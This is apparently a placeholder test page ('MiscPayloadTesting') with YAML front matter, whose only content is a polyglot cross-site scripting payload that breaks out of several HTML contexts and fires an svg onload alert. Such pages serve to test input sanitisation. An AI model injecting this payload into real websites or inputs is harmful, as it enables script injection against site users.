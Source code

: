```yaml
---
title: Example Title
permalink: /example-folder/example-subfolder/MiscPayloadTesting/
description: ""
third_nav_title: Example Subfolder
---
```

javascript:/\*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/\[\*/\[\]/+alert(1)//'>